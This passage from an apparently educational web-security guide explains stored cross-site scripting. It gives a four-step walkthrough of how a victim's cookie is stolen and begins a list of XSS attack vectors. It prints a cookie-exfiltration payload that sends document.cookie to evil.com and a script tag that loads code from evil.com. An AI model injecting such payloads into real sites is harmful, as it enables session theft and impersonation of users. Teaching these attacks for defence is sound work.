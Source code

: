In the example below, it shall be assumed that the attacker’s goal is to
impersonate the victim by stealing the victim’s cookie. Sending the
cookie to a server the attacker controls can be achieved in a variety of
ways, one of which is for the attacker to execute the following
JavaScript code in the victim’s browser through an XSS vulnerability.

&lt;script&gt;\
window.location=“http:*//evil.com/?cookie=” + document.cookie*\
&lt;/script&gt;

The figure below illustrates a step-by-step walkthrough of a simple XSS
attack.

![](media/website-security/cross-site-scripting.md-images/media/image01.png){width="6.267716535433071in"
height="2.7777777777777777in"}

1.  The attacker injects a payload in the website’s database by
    > submitting a vulnerable form with some malicious JavaScript

2.  The victim requests the web page from the website

3.  The website serves the victim’s browser the page with the attacker’s
    > payload as part of the HTML body.

4.  The victim’s browser will execute the malicious script inside the
    > HTML body. In this case it would send the victim’s cookie to the
    > attacker’s server. The attacker now simply needs to extract the
    > victim’s cookie when the HTTP request arrives to the server, after
    > which the attacker can use the victim’s stolen cookie
    > for impersonation.

**Some examples of Cross-site Scripting attack vectors**
--------------------------------------------------------

The following is a non-exhaustive list of XSS attack vectors that an
attacker could use to compromise the security of a website or web
application through an XSS attack. A more extensive list of XSS payload
examples is
maintained[here](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).

### **&lt;script&gt; tag**

The &lt;script&gt; tag is the most straight-forward XSS payload. A
script tag can either reference external JavaScript code, or embed the
code within the script tag.

*&lt;!-- External script --&gt;*\
&lt;script src=http://evil.com/xss.js&gt;&lt;/script&gt;\
*&lt;!-- Embedded script --&gt;*\
&lt;script&gt; alert("XSS"); &lt;/script&gt;

### **&lt;body&gt; tag**

An XSS payload can be delivered inside &lt;body&gt; tag by using the
onload attribute or other more obscure attributes such as the background
attribute.
